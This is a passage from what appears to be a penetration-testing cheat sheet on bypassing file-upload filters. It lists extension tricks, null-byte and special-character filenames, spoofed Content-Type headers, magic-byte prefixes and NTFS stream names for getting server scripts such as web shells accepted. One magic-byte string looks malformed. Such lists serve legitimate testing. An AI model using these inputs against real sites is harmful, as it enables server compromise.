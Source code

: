 * JSP : `.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .actions`
* Perl: `.pl, .pm, .cgi, .lib`
* Coldfusion: `.cfm, .cfml, .cfc, .dbm`
* Node.js: `.js, .json, .node`

### Upload tricks

- Use double extensions : `.jpg.php, .png.php5`
- Use reverse double extension (useful to exploit Apache misconfigurations where anything with extension .php, but not necessarily ending in .php will execute code): `.php.jpg`
- Random uppercase and lowercase : `.pHp, .pHP5, .PhAr`
- Null byte (works well against `pathinfo()`)
    * `.php%00.gif`
    * `.php\x00.gif`
    * `.php%00.png`
    * `.php\x00.png`
    * `.php%00.jpg`
    * `.php\x00.jpg`
- Special characters
    * Multiple dots : `file.php......` , in Windows when a file is created with dots at the end those will be removed.
    * Whitespace and new line characters
        * `file.php%20`
        * `file.php%0d%0a.jpg`
        * `file.php%0a`
    * Right to Left Override (RTLO): `name.%E2%80%AEphp.jpg` will became `name.gpj.php`.
    * Slash: `file.php/`, `file.php.\`, `file.j\sp`, `file.j/sp`
    * Multiple special characters: `file.jsp/././././.`
- Mime type, change `Content-Type : application/x-php` or `Content-Type : application/octet-stream` to `Content-Type : image/gif`
    * `Content-Type : image/gif`
    * `Content-Type : image/png`
    * `Content-Type : image/jpeg`
    * Content-Type wordlist: [SecLists/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
    * Set the Content-Type twice: once for unallowed type and once for allowed.
- [Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures)
    * Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application.
        * PNG: `\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[`
        * JPG: `\xff\xd8\xff`
        * GIF: `GIF87a` OR `GIF8;`
    * Shell can also be added in the metadata
- Using NTFS alternate data stream (ADS) in Windows. In this case, a colon character ":" will be inserted after a forbidden extension and before a permitted one. As a result, an empty file with the forbidden extension will be created on the server (e.g. "`file.asax:.jpg`"). This file might be edited later using other techniques such as using its short filename. The "::$data" pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions (.e.g. "`file.asp::$data.`")

### Filename vulnerabilities
